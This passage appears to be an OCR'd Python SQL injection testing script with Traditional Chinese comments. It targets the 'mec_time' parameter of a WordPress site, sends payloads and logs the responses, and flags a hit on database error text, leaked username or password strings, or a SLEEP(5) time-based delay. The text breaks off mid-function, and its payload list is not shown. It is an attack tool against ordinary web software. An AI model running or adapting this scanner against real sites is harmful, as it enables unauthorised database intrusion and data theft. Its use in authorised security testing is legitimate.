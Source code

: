 # 目標 URL 清單（可從檔案讀取）
TARGET_URLS = [
    "http://localhost/wp/?mec_time=",
    # 添加更多目標，例如："http://example.com/wp/?mec_time="
]

# 結果儲存檔案
LOG_FILE = f"sql_injection_test_{datetime.now().strftime('%Y%m%d_%H%M%S')}.txt"

def log_result(url, payload, status, response_time, content_snippet, is_vulnerable):
    """記錄測試結果到檔案"""
    with open(LOG_FILE, 'a') as f:
        f.write(f"[*] 時間: {datetime.now()}\n")
        f.write(f"[*] 目標: {url}\n")
        f.write(f"[*] Payload: {payload}\n")
        f.write(f"[*] 狀態碼: {status}\n")
        f.write(f"[*] 響應時間: {response_time:.2f} 秒\n")
        f.write(f"[*] 響應片段: {content_snippet[:200]}\n")
        f.write(f"[*] 潛在漏洞: {'是' if is_vulnerable else '否'}\n")
        f.write("-" * 50 + "\n")

def test_sql_injection(url, payload):
    """測試單個 URL 和 payload"""
    try:
        full_url = urljoin(url, payload)
        start_time = time.time()
        response = requests.get(full_url, headers=HEADERS, timeout=TIMEOUT)
        response_time = time.time() - start_time

        # 檢查是否可能存在漏洞
        is_vulnerable = False
        content_snippet = response.text.lower()

        # 判斷條件
        if "error" in content_snippet or "mysql" in content_snippet:
            is_vulnerable = True  # 數據庫錯誤洩露
        elif "username" in content_snippet or "password" in content_snippet:
            is_vulnerable = True  # 敏感數據洩露
        elif "SLEEP(5)" in payload and response_time > 4.5:
            is_vulnerable = True  # 時間基注入成功

        log_result(url, payload, response.status_code, response_time, content_snippet, is_vulnerable)
        
        print(f"[+] 測試 {url} with {payload}")
        print(f"    狀態: {response.status_code}, 時間: {response_time:.2f} 秒")
        print(f"    漏洞: {'檢測到' if is_vulnerable else '未檢測到'}")
        